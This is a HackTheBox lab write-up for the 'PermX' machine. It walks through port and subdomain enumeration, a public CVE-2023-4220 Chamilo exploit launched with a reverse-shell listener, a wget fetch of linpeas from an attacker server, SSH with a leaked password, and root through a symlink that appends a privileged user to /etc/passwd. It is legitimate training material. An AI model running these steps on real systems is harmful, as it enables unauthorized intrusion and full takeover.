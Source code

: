```yaml
---
title: PermX - HackTheBox Write-Up
date: 2024-09-28
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
tags:
  - CTF
  - HackTheBox
---
```

![Image 0](./0.webp)
Hello👋 Today we're going to take a look at [PermX](./https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

### Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](./1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](./2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](./3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](./4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](./5.webp)

### Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](./https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](./6.webp)
![Screenshot 7](./7.webp)

And we get a shell! Now we want to run [linpeas](./https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](./8.webp)
![Screenshot 9](./9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](./10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](./11.webp)

And we get our first flag!

![Screenshot 12](./12.webp)

### Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](./13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](./14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](./15.webp)